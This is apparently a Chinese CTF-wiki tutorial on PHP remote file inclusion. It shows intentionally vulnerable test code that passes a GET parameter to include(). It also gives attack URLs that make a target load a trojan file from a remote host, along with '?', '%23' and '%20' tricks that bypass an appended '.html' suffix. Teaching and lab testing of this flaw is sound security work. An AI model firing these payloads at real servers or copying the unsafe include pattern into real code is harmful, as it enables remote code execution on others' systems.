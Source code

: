 # 远程文件包含漏洞
PHP的配置文件allow_url_fopen和allow_url_include设置为ON，include/require等包含函数可以加载远程文件，如果远程文件没经过严格的过滤，导致了执行恶意文件的代码，这就是远程文件包含漏洞。

###无限制远程文件包含漏洞

测试代码：
```
<?php
	$filename  = $_GET['filename'];
	include($filename);
?>
```
在远程服务器上面搭一个网站，并将木马文件放到网站目录下，如果直接访问php代码不解析。
![Alt text](./019.png)

通过远程文件包含漏洞，包含php.txt可以解析。

```
http://www.ctfs-wiki.com/FI/FI.php?filename=http://192.168.91.133/FI/php.txt
```
测试结果：

php.txt中的php代码已经被执行
![Alt text](./020.png)
###有限制远程文件包含漏洞绕过
测试代码：
```
<?php include($_GET['filename'] . ".html"); ?> 
```
代码中多添加了html后缀，导致远程包含的文件也会多一个html后缀。

![Alt text](./021.png)
####问号绕过
```
http://www.ctfs-wiki.com/FI/WFI.php?filename=http://192.168.91.133/FI/php.txt?
```
![Alt text](./022.png)
#### #号绕过
```
http://www.ctfs-wiki.com/FI/WFI.php?filename=http://192.168.91.133/FI/php.txt%23
```
![Alt text](./023.png)
####还有哪些可以绕过？用burp跑一遍发现空格也可以绕过
![Alt text](./024.png)
```
http://www.ctfs-wiki.com/FI/WFI.php?filename=http://192.168.91.133/FI/php.txt%20
```
![Alt text](./025.png)
